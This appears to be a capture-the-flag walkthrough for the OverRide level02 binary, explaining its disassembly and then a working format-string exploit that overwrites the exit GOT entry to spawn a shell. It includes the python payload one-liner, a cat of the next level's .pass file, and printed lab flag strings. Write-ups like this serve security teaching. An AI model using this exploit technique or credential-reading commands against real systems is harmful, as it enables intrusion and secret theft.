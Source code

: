 
```
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username:
```
```
<+245>:	lea    -0xa0(%rbp),%rax ==> result of reading "/home/users/level03/.pass" = the Flag
<+252>:	mov    $0x400bf5,%esi   ==> "\n"
<+257>:	mov    %rax,%rdi
<+260>:	callq  0x4006d0 <strcspn@plt>
```
```
strcspn() calculates the length of the number of characters before the 1st occurrence of character present in both the string
Parameters:
str1 : The Target string in which search has to be made.
str2 : Argument string containing characters to match in target string.
```
strcspn("PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv", "\n"). // the flag from level01

In this case, there is no occurrence of the newline character \n in the first string, so the function will return the length of the entire string, which is 40.
```
 <+260>:	callq  0x4006d0 <strcspn@plt>
 <+265>:	movb   $0x0,-0xa0(%rbp,%rax,1)
 <+273>:	cmpl   $0x29,-0xc(%rbp)       ===> ret fread() = -0xc(%rbp)
INTEL 
 <+265>:	mov    BYTE PTR [rbp+rax*1-0xa0],0x0
 <+273>:	cmp    DWORD PTR [rbp-0xc],0x29
```
```
rbp+rax*1-0xa0 = 0 ==> rbp-0xa0 + rax ==> *(rbp-0xa0 + rax) = 0 ==> buffer + rax ==> buffer[rax] = 0 
then compares the res of fread() to 41
```
```
if not equal; then 
  0x400bf8:	 "ERROR: failed to read password file\n"
  exit(1)
else jmp to <+361>

fclose(*File) // -0x8(%rbp)
```
```
the program really begins at <+373>
0x400c20:	 "===== [ Secure Access System v1.0 ] ====="
```
```
 <+431>:	mov    0x20087e(%rip),%rax        # 0x601248 <stdin@@GLIBC_2.2.5>
 <+438>:	mov    %rax,%rdx
 <+441>:	lea    -0x70(%rbp),%rax
 <+445>:	mov    $0x64,%esi
 <+450>:	mov    %rax,%rdi
 <+453>:	callq  0x4006f0 <fgets@plt>
```
```
<+453>: fgets Username from stdin and stores it at -0x70(%rbp)
<+523>:	fgets Username from stdin and stores it at -0x110(%rbp)

<+566>:	lea    -0x110(%rbp),%rcx ==> the PWD
<+573>:	lea    -0xa0(%rbp),%rax  ==> The Flag

<+591>:	callq  0x400670 <strncmp@plt>

strncmp(Flag, PWD, 0x29/41);

if jne    <main+642>
   printf(-0x70(%rbp) ) // username
   "username" does not have access!
   exit
else
  printf("Greetings, %s!\n", -0x70(%rbp)) // username
  system (/bin/sh)
```

Format String to overide the GOT

```
--[ Username: %p %p %p %p %p %p %p %p
--[ Password: AAAA
*****************************************
0x7fffffffe4c0 (nil) 0x41 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6b8 0x1f7ff9a08 0x41414141
```

`(python -c 'print " %p " * 8 + "\n" + "AAAA"') | ./level02`

```
level02@OverRide:~$ (python -c 'print "%8$p" + "\n" + "AAAA"') | ./level02
0x41414141 does not have access!
```

x/s 0x601228
0x601228 <exit@got.plt>


----> 0x0000000000400a85 <+625>:	mov    edi,0x400d32 
      0x0000000000400a8a <+630>:	call   0x4006b0 <system@plt>

p 0x0000000000400a85 = 4196997

```
level02@OverRide:~$ (python -c 'print "%4196997p%8$n" + "\n" + "\x60\x12\x28"[::-1]' ; cat) | ./level02 > /dev/null
pwd 1>&2
/home/users/level02
cat /home/users/level03/.pass
cat /home/users/level03/.pass 1>&2
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```






